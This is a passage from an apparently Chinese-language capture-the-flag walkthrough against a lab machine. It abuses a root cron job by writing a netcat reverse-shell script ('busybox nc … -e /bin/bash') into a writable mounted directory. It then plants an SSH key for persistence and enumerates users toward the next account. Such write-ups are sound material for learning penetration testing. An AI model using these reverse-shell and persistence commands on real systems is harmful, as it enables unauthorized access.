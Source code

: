 ```shell
2023-08-31 21:30:59 - Usuario: k_adams - Accion: Descarga de archivo confidencial_backup.zip

2023-08-31 22:45:00 - Usuario: A.love - Accion: Tarea cron ejecutada: */5 * * * * root bash /home/love/script/*
/var/log #

239 231 0:23 /love/script /script rw,nosuid,nodev - tmpfs tmpfs rw
240 231 8:1
```

去挂载目录`/script`写个脚本，再等定时任务触发后即可获得shell

```shell
/var/log # cd /script/
/script # echo 'busybox nc 192.168.31.126 1235 -e /bin/bash' > a.sh
/script # chmod +x a.sh

kali└─# nc -lvp 1235
listening on [any] 1235 ...
id
connect to [192.168.31.126] from ticket.shieldweb.che [192.168.31.116] 39518
uid=1002(love) gid=1002(love) grupos=1002(love)

```

方便登陆写个公钥

```
#kali生成公私钥
ssh-keygen -t ed25519
#靶机配置免密登陆
 mkdir ~/.ssh
echo '<公钥>'>>~/.ssh/authorized_key
```

### 5.获得`mitnick`权限

家目录下有四个账户`alfonso、love、mitnick、tomu`

```shell
love@osiris:~$ ls
note.txt
love@osiris:~$ cat note.txt
A.love:

Kevin this is a good icebreaker

we have icebreaker

jajajajjaja

S.A.S.
love@osiris:~$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/sh
......
tomu:x:1001:1001:Tsutomu Shimomura,,,:/home/tomu:/bin/bash
love:x:1002:1002:Alex Love,,,:/home/love:/bin/bash
mitnick:x:1003:1003:,,,:/home/mitnick:/bin/bash
love@osiris:/home$ alias ll='ls -artl'
love@osiris:/home$ ll
total 24
drwxr-xr-x 18 root    root    4096 jul  9  2023 ..
drwxr-xr-x  6 root    root    4096 ago 31  2023 .
drwxr-xr-x  7 alfonso alfonso 4096 oct  9  2023 alfonso
drwxr-xr-x  4 tomu    tomu    4096 jun  2  2024 tomu
drwxr-xr-x  4 mitnick mitnick 4096 jun 28 19:12 mitnick
```